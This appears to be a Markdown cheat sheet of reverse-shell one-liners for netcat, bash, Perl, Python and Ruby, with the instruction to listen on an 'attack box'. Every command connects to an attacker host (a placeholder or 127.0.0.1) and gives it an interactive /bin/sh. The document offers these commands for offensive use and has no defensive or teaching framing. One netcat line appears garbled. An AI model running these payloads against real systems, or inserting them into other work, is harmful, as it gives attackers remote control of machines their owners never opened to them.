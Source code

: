 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box 

### 1. Netcat

For old versions of netcat -  

	nc attackerip 4444  -e /bin/sh
	/bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
	sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -  
	
    perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 5. Ruby
	ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'